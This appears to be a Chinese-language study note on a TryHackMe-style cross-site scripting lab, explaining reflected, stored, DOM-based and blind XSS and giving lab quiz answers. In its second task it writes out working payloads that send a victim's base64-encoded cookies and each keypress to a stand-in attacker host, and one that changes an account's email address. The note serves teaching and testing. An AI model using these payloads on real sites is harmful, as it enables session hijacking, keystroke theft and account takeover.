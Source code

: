 # task1
XSS 是基於 JavaScript 
```
Cross-Site Scripting
```
# task2
最簡單的概念證明：
```
<script>alert('XSS');</script>
```
會話竊取： JavaScript 獲取目標的 cookie，base64 對 cookie 進行編碼以確保傳輸成功，然後將其發佈到黑客控制的網站進行登錄。一旦黑客擁有了這些 cookie，他們就可以接管目標的會話並以該用戶的身份登錄。
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
按鍵記錄器：
在網頁上鍵入的任何內容都將被轉發到黑客控制下的網站
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

## 商業邏輯：
調用特定的網絡資源或 JavaScript 函數。例如，想像一個用於更改用戶電子郵件地址的 JavaScript 函數，名為user.changeEmail(). 您的有效載荷可能如下所示：
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
現在帳戶的電子郵件地址已更改，攻擊者可能會執行重置密碼攻擊。
```
哪個文檔屬性可以包含用戶的會話令牌？
document.cookie

哪種 JavaScript 方法經常被用作概念證明？
alert
```
# task3
## 反射型 XSS
用戶提供的數據未經任何驗證包含在網頁源中時，就會發生反射型 XSS

您需要測試每個可能的入口點；這些包括：    

URL 查詢字符串中的參數    
URL 文件路徑    
有時HTTP標頭（儘管在實踐中不太可能被利用）    

**在參數中測試，看能不能插入惡意的js**

# task4
## 存儲型 XSS
`XSS 有效負載存儲在 Web 應用程序中（例如，在數據庫中），然後在其他用戶訪問該站點或網頁時運行。`

```
沒有檢查這些評論是否包含 JavaScript 或過濾掉任何惡意代碼。如果我們現在發布包含 JavaScript 的評論，這將存儲在數據庫中，並且現在訪問該文章的每個其他用戶都將在他們的瀏覽器中運行 JavaScript。
```

```
如何測試存儲型 XSS：

您需要測試似乎存儲數據的每個可能的入口點，然後在其他用戶可以訪問的區域中顯示出來；其中一個小例子可能是：

對博客的評論
用戶個人資料信息
網站列表
```

潛在影響：

惡意 JavaScript 可能會將用戶重定向到另一個站點、竊取用戶的會話 cookie 或在充當訪問用戶時執行其他網站操作。



# task5
## 基於 DOM 的 XSS
## DOM?  
 DOM代表文檔對像模型，是HTML和 XML 文檔的編程接口。它表示頁面，以便程序可以更改文檔結構、樣式和內容。網頁是一個文檔，該文檔既可以顯示在瀏覽器窗口中，也可以作為 HTML 源文件顯示

 ```
 DOM 的 XSS 可能難以測試，並且需要一定的 JavaScript 知識才能閱讀源代碼。您需要查找訪問攻擊者可以控制的某些變量的代碼部分，例如“ window.location.x ”參數。
 ```
## 利用 DOM

基於 DOM 的 XSS 是 JavaScript 直接在瀏覽器中執行的地方，無需加載任何新頁面或將數據提交給後端代碼。當網站 JavaScript 代碼作用於輸入或用戶交互時，執行發生。


## 示例場景：

網站的 JavaScript 從window.location.hash 參數中獲取內容，然後將其寫入當前正在查看的頁面中的部分。哈希的內容不會檢查惡意代碼，從而允許攻擊者將他們選擇的 JavaScript 注入網頁。

```
當您找到這些代碼時，您需要查看它們是如何處理的，以及這些值是否曾經寫入網頁的 DOM 或傳遞給不安全的 JavaScript 方法，例如eval()。
 ```

# task6
## 盲XSS
盲 XSS 類似於存儲型 XSS  
看不到有效負載工作。
```
示例場景：

一個網站有一個聯繫表格，您可以在其中向工作人員發送消息。消息內容不會被檢查任何惡意代碼，這允許攻擊者輸入他們想要的任何內容。然後，這些消息會變成支持票，員工可以在私人門戶網站上查看。

潛在影響：

使用正確的有效負載，攻擊者的 JavaScript 可以調用攻擊者的網站，顯示員工門戶 URL、員工的 cookie，甚至正在查看的門戶頁面的內容。現在，攻擊者可能會劫持員工的會話並訪問私人門戶。
如何測試盲 XSS：



在測試盲 XSS 漏洞時，您需要確保您的有效負載具有回調（通常是HTTP請求）。這樣，您就知道您的代碼是否以及何時執行。



用於盲 XSS 攻擊的流行工具是xsshunter。儘管可以使用 JavaScript 製作您自己的工具，但該工具會自動捕獲 cookie、URL、頁面內容等。

回答以下問題

你可以使用什麼工具來測試 Blind XSS？
xsshunter

什麼類型的 XSS 與 Blind XSS 非常相似？
stored xss
```


